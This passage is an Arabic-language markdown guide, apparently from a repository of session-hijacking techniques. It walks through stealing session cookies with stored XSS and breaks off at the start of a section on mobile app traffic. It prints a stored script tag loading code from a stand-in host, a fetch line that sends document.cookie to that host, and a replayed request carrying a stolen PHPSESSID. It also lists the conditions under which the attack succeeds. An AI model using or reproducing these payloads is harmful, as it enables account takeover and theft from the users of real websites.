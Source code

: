 # 🧪 Session Hijacking – المحاولة 5: استخدام Stored XSS لسرقة الجلسة

### 📌 الفكرة:
إذا كان الموقع يسمح بتخزين تعليمات JavaScript (Stored XSS)، يمكن سرقة الكوكيز بشكل دائم.

### ⚙️ الخطوات:

#### ١. اكتب XSS Payload يُخزن في قاعدة البيانات
مثال:
```html
<script src="https://hacker.com/xss.js"></script>
```

#### ٢. انتظر حتى يفتح أي مستخدم الصفحة
- كل مستخدم يفتح الصفحة → يتم إرسال الكوكيز لك.

#### ٣. استقبال الكوكيز على خادمك
- ملف `xss.js` يحتوي على:
```javascript
fetch("https://hacker.com/steal?cookie=" + document.cookie)
```

#### ٤. استخدام الكوكيز في Burp Repeater
```http
GET /dashboard HTTP/1.1
Host: target.com
Cookie: PHPSESSID=abc123xyz
```

#### 🛠️ الأدوات:
- Stored XSS Vulnerable Page
- Python Web Server
- Burp Repeater

#### 💡 شروط النجاح:
- موقع يدعم Stored XSS
- الكوكيز بدون HttpOnly

---

# 🧪 Session Hijacking – المحاولة 6: استخدام Mobile Application Traffic

### 📌 الفكرة:
تطبيقات الهاتف قد تستخدم API بسيط مع توكنات في رؤوس الطلب.

### ⚙️ الخطوات:
